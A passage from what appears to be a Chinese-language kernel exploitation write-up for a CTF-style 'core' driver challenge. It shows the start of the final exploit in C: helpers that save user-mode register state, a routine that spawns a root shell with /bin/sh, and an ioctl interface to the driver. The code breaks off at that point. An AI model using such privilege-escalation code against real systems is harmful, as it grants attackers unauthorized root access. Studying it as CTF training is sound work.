 最终的 exp 如下：

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>
#include <sys/ioctl.h>

/**
 * Kernel Pwn Infrastructures
**/

#define SUCCESS_MSG(msg)    "\033[32m\033[1m" msg "\033[0m"
#define INFO_MSG(msg)       "\033[34m\033[1m" msg "\033[0m"
#define ERROR_MSG(msg)      "\033[31m\033[1m" msg "\033[0m"

#define log_success(msg)    puts(SUCCESS_MSG(msg))
#define log_info(msg)       puts(INFO_MSG(msg))
#define log_error(msg)      puts(ERROR_MSG(msg))

size_t commit_creds = 0, prepare_kernel_cred = 0;
size_t kernel_base = 0xffffffff81000000, kernel_offset;

size_t user_cs, user_ss, user_rflags, user_sp;

void save_status(void)
{
    asm volatile (
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
    );
    log_success("[*] Status has been saved.");
}

void get_root_shell(void)
{
    if(getuid()) {
        log_error("[x] Failed to get the root!");
        sleep(5);
        exit(EXIT_FAILURE);
    }

    log_success("[+] Successful to get the root.");
    log_info("[*] Execve root shell now...");

    system("/bin/sh");
    
    /* to exit the process normally, instead of potential segmentation fault */
    exit(EXIT_SUCCESS);
}

/**
 * Challenge Interface
**/

void core_read(int fd, char *buf)
{
    ioctl(fd, 0x6677889B, buf);
```
